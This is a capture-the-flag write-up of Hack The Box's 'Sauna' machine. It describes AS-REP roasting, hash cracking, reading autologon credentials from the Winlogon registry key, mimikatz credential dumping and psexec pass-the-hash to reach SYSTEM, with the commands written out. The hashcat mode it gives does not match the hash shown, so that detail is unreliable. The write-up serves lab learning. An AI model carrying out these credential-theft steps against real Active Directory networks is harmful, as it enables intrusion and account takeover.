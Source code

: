 ```yaml
---
title: Sauna HTB Writeup
date: '2020-07-19 20:55:00'
categories: ["htb"]
banner_img: /img/Sauna.png
---
```



### User

After running nmap these ports are open:

```
Nmap scan report for EGOTISTICALBANK (10.10.10.175)
Host is up (0.17s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-28 03:32:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/27%Time=5E581939%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m00s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-28T03:34:31
|_  start_date: N/A

```

First I add the domain _EGOTISTICALBANK_ to /etc/hosts for later usage maybe. And the first thing I do is visiting the website. From the website after a bit of enumeration all I can get are a bunch of usernames from these pages:
- http://10.10.10.175/about.html
- http://10.10.10.175/single.html



Enumerating ldap port I get nothing more than the hostname which I already know.
Running enum4linux also does not give me much.
Also smbmap gives me nothing. After a bit of research I found out that companies use account username conventions. So maybe I can use some tools with these since I have a lot of ports which can allow me to specify a username without password at first.

I read about [Ad user naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/) and after I try to use the usernames against a impacket tool. The tool I use is caled GetNPUsers and it `Queries target domain for users with 'Do not require Kerberos
preauthentication' set and export their TGTs for cracking`. After a lot of trial and error I find the password of user beeing fsmith.

`/opt/impacket/examples/GetNPUsers.py  EGOTISTICALBANK/fsmith -dc-ip 10.10.10.175 -request`

```
Impacket v0.9.21.dev1+20200220.181330.03cbe6e8 - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate fsmith, getting its TGT
$krb5asrep$23$fsmith@EGOTISTICALBANK:fdb6fa679238059bc04549980ec57412$2414afe6424ecfa364ca858c8e8b4713374d1f25625add595a3a7386e4b4eccaf2aa5c1edfd59e0026222d000bed930fdb07e9500540960aa75348509adadc8def409b724dc5958b5dc4e9910c33331ef742cfd73dc405a6c6419ce6c20196c3cf90380f3c88af0b310b1b53b9f9b9c34022b9e3d33a0df0acb0fc37322aca41c6493e8d4e45aa941b5ffdebd89dd79b755ac5514dde9e08d5c381b5e9ea99cbc2ed1bc3b9703c512dac781794030804d252e723ad640cc9ca4b5ef543a9d05e4c2d6689e4414b888b5c9e6e9b6f575f837c0d8636a82f2602cf332be121d36cf259abf8d3e24b5f6d9ef3833bfcd9c502370e330c3c90cd90

```

This would give me the users [TGT](https://docs.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets) which I can crack .

`hashcat -m 13100 crackme.hash /usr/share/wordlists/rockyou.txt`

And I found the password *Thestrokes23*

I do a full port scanning with verbose on nmap to check if windows remote management is enabled. After finding it is enabled I use evil-winrm and connect to it by providing the username fsmith and the cracked password. 


### root

From there I run Winpeas or any other enumeration script and find a hidden password inside this registry `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

The password belongs to user svc_loanmgr and the password is Moneymakestheworldgoround!

I login again by using evil-winrm 

I generate a reverse shell by using metasploit and then run it. This would give me cmd shell. I then upload mimikatz and get Administrator ntlm hash, which then I use it with psexec and get shell as nt authority\system.

psexec.py administrator@10.10.10.175 -hashes :d9485863c1e9e05851aa40cbb4ab9dff
Impacket v0.9.21.dev1+20200220.181330.03cbe6e8 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file TkxHqRZj.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service Pntp on 10.10.10.175.....
[*] Starting service Pntp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

-----------------------------------------------------------------------------------------------


ReadMore: 
[Active Directory Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-mimikatz)